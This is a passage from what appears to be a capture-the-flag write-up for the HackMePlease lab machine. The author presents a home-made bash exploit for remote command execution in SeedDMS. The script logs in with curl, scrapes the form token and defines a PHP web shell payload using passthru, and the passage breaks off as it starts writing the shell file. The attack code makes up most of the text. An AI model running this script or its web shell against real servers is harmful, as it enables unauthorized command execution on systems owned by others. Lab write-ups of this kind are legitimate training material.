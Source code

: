 ![](/assets/images/hackmeplease/screenshot-4.png)

I exploited the remote command execution with a bash script created by my own, as the python script had some problems.

```bash
#!/bin/bash

if [ $# -ne 3 ]; then
    echo "Usage: $(basename $0) [url] [user] [password]"
    exit
fi

url=$1
user=$2
passwd=$3
check="password incorrect"
webshell="<?php passthru(\$_REQUEST['cmd']); ?>"

# Login to SeedDMS
r=$(curl -sL -X POST -c cookies.txt "${url}/op/op.Login.php" \
    --data "login=$user&pwd=$passwd&lang=en_GB" | grep -o "$check")

if [ -z "$r" ]; then
    echo "[+] Login successful"
else
    echo "[-] Incorrect credentials"
    exit
fi

# Retrieving token
formtoken=$(curl -s -L -b cookies.txt "${url}/out/out.AddDocument.php?folderid=1&showtree=1" \
    | grep -oP '"\S{32}"' | cut -d '"' -f 2)

if [ -n $formtoken ]; then
    echo "[+] Token retrieved"
else
    echo "[-] Could'n retrieve the token"
    exit
fi

# Creating web shell
echo "[+] Creating web shell"
file=/tmp/z.php
```